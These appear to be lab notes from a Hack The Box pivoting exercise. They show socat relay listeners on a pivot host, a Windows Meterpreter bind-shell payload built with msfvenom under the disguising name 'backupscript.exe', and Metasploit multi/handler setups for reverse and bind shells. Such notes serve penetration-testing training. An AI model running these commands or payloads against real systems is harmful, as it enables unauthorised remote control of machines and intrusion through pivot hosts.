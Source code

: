 #### Starting Socat Listener
On Pivot Machine
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
#### Starting Socat Bind Shell Listener

  Starting Socat Bind Shell Listener

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
#### Creating the Windows Payload Bindshell
On Attack host
```shell-session
Tachipy@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
#### Configuring & Starting the multi/handler

On Attack host

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run
```
#### Configuring & Starting the Bind multi/handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run
```